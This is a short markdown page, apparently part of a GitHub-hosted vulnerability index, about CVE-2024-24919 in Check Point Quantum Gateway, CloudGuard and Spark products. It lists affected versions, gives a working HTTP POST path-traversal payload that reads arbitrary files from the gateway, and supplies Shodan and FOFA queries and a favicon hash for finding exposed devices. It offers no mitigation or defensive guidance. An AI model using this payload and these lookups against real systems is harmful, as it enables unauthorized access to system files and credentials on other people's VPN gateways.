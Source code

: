 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```

<link rel="stylesheet" type="text/css" href="css/styles.css">
Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

# Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

# Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
